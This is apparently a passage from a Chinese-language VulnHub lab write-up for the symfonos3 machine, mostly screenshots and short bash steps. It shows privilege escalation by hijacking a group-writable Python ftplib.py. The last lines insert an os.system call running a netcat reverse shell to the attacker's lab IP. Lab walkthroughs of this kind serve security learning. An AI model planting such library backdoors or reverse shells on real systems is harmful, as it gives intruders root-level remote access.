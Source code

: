 ![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/28.png)

改这个库试试
```bash
find / -name ftplib*
```

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/29.png)

```bash
cd /usr/lib/python2.7/
ls -l | grep ftplib.py
```

root 和 god 组可以修改,hades 正好是 god 组的 :)

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/30.png)

![image](../../../../../assets/img/安全/实验/VulnHub/symfonos/symfonos3/31.png)

```bash
vi /usr/lib/python2.7/ftplib.py

os.system("nc -nv 192.168.141.134 5555 -e /bin/bash")
```
